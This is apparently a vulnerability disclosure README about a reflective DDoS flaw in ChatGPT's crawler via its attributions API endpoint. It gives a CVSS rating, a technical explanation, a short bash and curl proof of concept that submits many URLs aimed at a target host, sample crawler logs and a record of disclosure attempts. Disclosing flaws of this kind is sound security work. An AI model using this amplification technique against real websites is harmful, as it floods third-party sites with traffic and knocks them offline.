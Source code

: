 # OpenAI: ChatGPT Crawler Vulnerability
## Unauthenticated Reflective Distributed Denial of Service (DDoS)

**Severity:** [**High** - 8.6 CVSS score](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H/E:H/RL:U/RC:C/CR:L/IR:L/AR:H/MAV:N/MAC:L/MPR:N/MUI:N/MS:C/MC:N/MI:N/MA:H](https://chandanbn.github.io/cvss/#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H
) _because it is network-based, low complexity, no privileges required, no user interaction required, changed scope, no impact on confidentality or integrity but high impact on availability._

**ChatGPT crawler can be triggered to DDoS a victim website via HTTP request to unrelated ChatGPT API.** This defect in OpenAI software will spawn a DDoS attack on unsuspecting victim website, utilizing multiple Microsoft Azure IP address ranges on which ChatGPT crawler is running.

> [!IMPORTANT]  
> OpenAI has disabled the vulnerable API endpoint after this vulnerability was [discussed on HackerNews](https://news.ycombinator.com/item?id=42725147) and TheRegister wrote an article titled ["OpenAI's ChatGPT crawler can be tricked into DDoSing sites, answering your queries"](https://www.theregister.com/2025/01/19/openais_chatgpt_crawler_vulnerability/) about it. The proof-of-concept code does not work any more.

### Details

ChatGPT API exhibits a severe quality defect when handling HTTP POST requests to `https://chatgpt.com/backend-api/attributions`. 
The API expects a list of hyperlinks in parameter `urls`.
It is commonly known that hyperlinks to the same website can be written in many different ways. 
Due to bad programming practices, OpenAI does not check if a hyperlink to the same resource appears multiple times in the list. 
OpenAI also does not enforce a limit on the maximum number of hyperlinks stored in the `urls` parameter, thereby enabling the transmission of many thousands of hyperlinks within a single HTTP request.

Immediately after a well-formed HTTP POST request is received by OpenAI's `https://chatgpt.com/backend-api/attributions` API endpoint, OpenAI will initiate one HTTP request for each hyperlink contained in the `urls` parameter from the OpenAI servers located in the Microsoft Azure cloud.
At this point, a victim website will experience a high number of parallel connection attempts and HTTP requests from OpenAI's servers. Even though OpenAI is aware that they are sending a large number of requests to the same website at the same point in time, they don't make any attempt to limit the number of connections to the same website or even prevent the issuance of duplicate requests to the same resource.

Depending on the number of hyperlinks transmitted to OpenAI via the `urls` parameter, the large number of connections from OpenAI's servers might overwhelm the victim website.

This software defect provides an significant amplification factor for potential DDoS attacks. OpenAI exhibits a lack quality control processes in their software engineering and should remediate this defect as soon as possible.

### Proof of concept:

This proof of concept code highlights the defects of the OpenAI's API by initiating the sending 50 HTTP requests from OpenAI servers to `my-website.localhost`.

```bash
#!/bin/bash

echo {1..50} | tr ' ' '\n' | (
  while read -r i; 
    do echo "https://my-website.localhost:$RANDOM/$i-$RANDOM.txt"; 
  done
) | jq -R -s -j -c '{ "urls": split("\n")[:-1] }' \
| curl -v --http1.1 \
  -H 'user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/535.32 (KHTML, like Gecko) Chrome/133.0.0.1 Safari/535.32' \
  -H "content-type: application/json" \
  -H 'origin: https://www.chatgpt.com' \
  --data-binary @- -X POST 'https://chatgpt.com/backend-api/attributions'
```

The log files on webserver `my-website.localhost` will show many connection attempts by `ChatGPT Crawler` happening in the same second:

```
...
2025-01-10 40.84.221.211 "GET /9185 HTTP/2.0" "Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko); compatible; ChatGPT-User/1.0; +https://openai.com/bot"
2025-01-10 40.84.221.210 "GET /1190 HTTP/2.0" "Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko); compatible; ChatGPT-User/1.0; +https://openai.com/bot"
2025-01-10 40.84.221.208 "GET /9185 HTTP/2.0" "Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko); compatible; ChatGPT-User/1.0; +https://openai.com/bot"
2025-01-10 40.84.221.208 "GET /1190 HTTP/2.0" "Mozilla/5.0 AppleWebKit/537.36 (KHTML, like Gecko); compatible; ChatGPT-User/1.0; +https://openai.com/bot"
...
```


### Disclosure

This software defect was discovered in January 2025 and responsibly disclosed to both OpenAI as owner of the defective software and Microsoft as the owner of the servers which spawn the massive number of potentially malicious web requests. 

Unfortunately it was not possible to obtain a reaction from either party in due time, even though many attempts to ensure a mitigation of this software defect were made, including:
- contacting OpenAI security team via report on their BugCrowd vulnerability reporting platform (no response from OpenAI)
- contacting OpenAI security team via e-mail to `disclosure@openai.com` as described in the `.well-known/security.txt` file on their web server (message "mailbox is not used any more", no response from OpenAI)
- contacting OpenAI employees via reports and security advisories posted to their github repositories (no response from OpenAI)
- contacting OpenAI data privacy officer via email to `privacy@openai.com` and `dsar@openai.com` (email response written by AI pointing to FAQ website)
- contacting OpenAI support staff via email to `support@openai.com` (email response written by AI pointing to FAQ website)
- contacting Microsoft security team via e-mail to `secure@microsoft.com`, `abuse@microsoft.com`, and many more (no response from Microsoft)
- contacting Microsoft security team via forms filled out on `cert.microsoft.com` (email response written by AI: "case closed")
- contacting Microsoft Azure network operations team via e-mail to the contacts provided in WHOIS records (no response from Microsoft)
- contacting CloudFlare security team via report on HackerOne, as CloudFlare provides the gateway server to `https://chatgpt.com` (HackerOne staff closes report as "informative", refuses to forward information to CloudFlare)

As of Friday, 10 Jan 2025, after various reports over legal communication channels, this software defect is neither resolved by OpenAI/Microsoft nor did they acknowledge its existence.

